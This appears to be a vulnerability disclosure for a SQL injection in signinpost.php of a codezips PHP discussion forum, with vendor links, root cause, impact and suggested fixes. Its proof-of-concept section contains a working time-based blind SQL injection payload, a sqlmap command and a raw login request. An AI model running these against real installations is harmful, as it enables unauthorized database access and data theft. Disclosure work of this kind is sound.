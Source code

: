 # Technical Discussion Forum Using PHP With Source Code  V1.0 signinpost.php SQL injection

## NAME OF AFFECTED PRODUCT(S)

- ` Technical Discussion Forum Using PHP With Source Code V1.0`

## Vendor Homepage

- https://codezips.com/php/technical-discussion-forum-using-php-with-source-code/

## Software Link

- https://codeload.github.com/codezips/Technical-Discussion-Forum/zip/master

## Vendor

- `codezips`

## Vulnerability Type

- `SQL injection`

## Root Cause

- A SQL injection vulnerability was found in the 'signinpost.php' file of  the 'Technical Discussion Forum Using PHP With Source Code ' project. The reason for this issue is that attackers inject malicious code from the parameter  'username' and use it directly in SQL queries without the need for  appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized  operations.

  ![](./image/1.png)

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve  unauthorized database access, sensitive data leakage, data tampering,  comprehensive system control, and even service interruption, posing a  serious threat to system security and business continuity.

## DESCRIPTION

- During the security review of "Technical Discussion Forum Using PHP With Source Code", zhangjiale  discovered a critical SQL injection vulnerability in the "signinpost.php" file. This vulnerability stems from insufficient  user input validation of the 'username' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain  unauthorized access to databases, modify or delete data, and access  sensitive information. Immediate remedial measures are needed to ensure  system security and protect data integrity.

## Vulnerability details and POC

Vulnerability Name: Username Parameter

```
sqlmap resumed the following injection point(s) from stored session:
Parameter: username (POST)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: username=test' AND (SELECT 7188 FROM (SELECT(SLEEP(5)))JiSV) AND 'CsMe'='CsMe&password=12323&submit=SignIn
```

<img src="./image/2.png" style="zoom:150%;" />

```
//sqlmap
python sqlmap.py -r url.txt --current-db --current-user --is-dba
```

```
poc
POST /signinpost.php HTTP/1.1
Host: 192.168.75.220
Content-Length: 42
Cache-Control: max-age=0
Origin: http://192.168.75.220
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.75.220/signin.php
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: metabase.DEVICE=e51030e7-51d8-429c-b737-59e6ee18ae6c; __test=1; PHPSESSID=9vhd24i6sjknqqcj80ddhqsbj3
Connection: close

username=test&password=12323&submit=SignIn
```

## Suggested fixes

1. **Use prepared statements and parameter binding:**
    Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered  by the user is treated as pure data and will not be interpreted as SQL  code.
2. **Input validation and filtering:**
    Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Regular security audits:**
    Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.